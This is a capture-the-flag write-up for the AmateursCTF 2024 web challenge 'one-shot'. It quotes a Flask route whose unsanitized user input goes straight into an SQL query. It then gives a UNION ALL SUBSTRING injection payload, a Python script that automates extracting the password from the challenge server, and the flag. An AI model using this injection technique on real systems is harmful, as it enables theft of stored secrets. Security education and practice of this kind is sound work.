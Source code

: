 ```yaml
---
title: "one-shot"
description: "my friend keeps asking me to play OneShot. i haven't, but i made this cool challenge!"
points: 184
solves: 282
author: Jozef Steinhübl
date: April 11 2024
---
```


## Introduction

![task](https://raw.githubusercontent.com/GerlachSnezka/amateursctf/main/assets/2024-web-one-shot.png)

In this challenge, we are given a website and its source code. We have to create a session, search for a pass and then guess the pass to get the flag.

## Analysis

After digging into the source code, we see a potential SQL injection in the `search` route. The `query` parameter is not sanitized and is directly used in the SQL query.

```python #1,5
query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")
return f"""
<h2>Your results:</h2>
<ul>
{"".join([f"<li>{row[0][0] + '*' * (len(row[0]) - 1)}</li>" for row in query.fetchall()])}
</ul>
<h3>Ready to make your guess?</h3>
<form action="/guess" method="POST">
    <input type="hidden" name="id" value="{id}">
    <input type="text" name="password" placehoder="Password">
    <input type="submit" value="Guess">
</form>
"""
```

In the fifth line, we can see that each row from the query is displayed in the list. The first character of the password is displayed, and the rest of the characters are replaced with `*`.

## Solution

We can create a malicious query that will inject multiple `SUBSTRING` SQL functions to display each character of the password in a separate row.

```sql
%' OR 1=1 UNION ALL SELECT SUBSTRING(password, n, 1) FROM table_{id}
```

$$
\begin{align*}
& n \text{ represents the position of the character in the password} \\
& id \text{ is the id of the table}
\end{align*}
$$

> **Why UNION ALL?**  
> We must use `UNION ALL` instead of `UNION` because passwords can contain duplicate characters.

I created a script that will automate the process of building the query and extracting the password.

```python
import requests
import re

URL = "http://one-shot.amt.rs"


# Get session id
def get_session():
    res = requests.post(URL + "/new_session")
    return res.text.split('type="hidden" name="id" value="')[1].split('"')[0]


# Search for password, use malicious query
def search(session: str, query: str):
    query = query.replace("{id}", session)
    res = requests.post(URL + "/search", data={"id": session, "query": query})
    return re.findall(r"<li>(.*?)</li>", res.text)


# Guess the password
def guess(session: str, password: str):
    res = requests.post(URL + "/guess", data={"id": session, "password": password})
    return res.text


# Build a malicious query
def build_query():
    query = "%' OR 1=1"

    for n in range(1, 33):
        query += f" UNION ALL SELECT SUBSTRING(password, {n}, 1) FROM table_" + "{id}"

    return query + " --"


session = get_session()

vals = search(session, build_query())
vals = [val for val in vals if len(val) == 1] # get only characters
print(guess(session, "".join(vals)))
```

After running the script, we get the flag.

```
amateursCTF{go_union_select_a_life}
```